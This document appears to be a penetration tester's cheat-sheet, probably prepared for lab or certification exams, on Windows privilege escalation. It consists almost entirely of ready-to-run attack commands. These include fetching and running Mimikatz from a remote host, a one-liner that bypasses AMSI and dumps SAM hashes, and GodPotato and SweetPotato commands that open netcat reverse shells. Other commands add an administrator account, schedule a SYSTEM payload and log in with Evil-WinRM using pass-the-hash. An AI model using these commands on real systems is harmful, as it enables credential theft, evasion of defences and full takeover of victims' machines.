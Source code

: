```bash
wget https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
```

```powershell
Invoke-WebRequest -Uri http://192.168.45.195:80/Invoke-Mimikatz.ps1 -OutFile ./Invoke-Mimikatz.ps1

.\Invoke-Mimikatz.ps1 -Command '"privilege::debug" ;; "token::elevate" ;; "lsadump::sam"'
```

```PowerShell
powershell -ep bypass -nop -c "[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true); iex (New-Object Net.WebClient).DownloadString('http://192.168.45.195/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug token::elevate lsadump::sam'"
```

Error: `sekurlsa::logonpasswords kuhl_m_sekurlsa_acquireLSA ; Logon list`
- Try a different version until it works:
	- CONFIRMED GOOD: https://github.com/ebalo55/mimikatz/tree/main/x64
		- Offsec community suggests this
		- This one works with Windows 11
	- Kali Linux version: `/usr/share/windows-resources/mimikatz/`
		- Doesn't work
---
### Potatoes
 > - GodPotato is more reliable but worse experience
 > - SweetPotato is better experience but less reliable
### GodPotato
```PowerShell
GodPotato -cmd "cmd /c whoami" # Simple (consider adding "-usevuln" flag)
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012" # Reverse shell

# Add user to admin group
.\godpotato.exe -cmd "net localgroup Administrators sarah /add"

# Scheduled task (in case reverse shell is failing)
.\godpotato.exe -cmd 'schtasks /create /tn "shell" /tr "C:\Users\Public\rev2.exe" /sc MINUTE /mo 1 /ru "SYSTEM" /F'
```
### SweetPotato
```PowerShell
# https://github.com/carr0t2/SweetPotato (GitHub with build action)
.\SweetPotato.exe -e PrintSpoofer # Default (`PrintSpoofer`)
.\SweetPotato.exe -e EfsRpc # USE THIS ONE
.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd" # USE THIS ONE; with "-e EfsRpc" and "nc.exe"
.\SweetPotato.exe -e WinRM # with -e WinRM
.\SweetPotato.exe -e DCOM  # with -e DCOM
```
---
### Evil-WinRM
Fixes PowerShell no output when running commands. Supports pass the hash, in-memory loading, and file upload/download.
Connect:
```bash
# CAREFUL CONNECTING TO DOMAIN, "corp.com\evil" will not work, needs to just be "corp\"
evil-winrm -i 192.168.50.220 -u "corp\daveadmin" -p "qwertqwertqwert123\!\!" -o evil-winrm-logs.txt

# -S flag can be used for SSL connection
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!" -o evil-winrm-logs.txt

# Pass-the-hash
evil-winrm -i <TARGET_IP> -u <USERNAME> -H <NTLM_HASH> -o evil-winrm-logs.txt
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami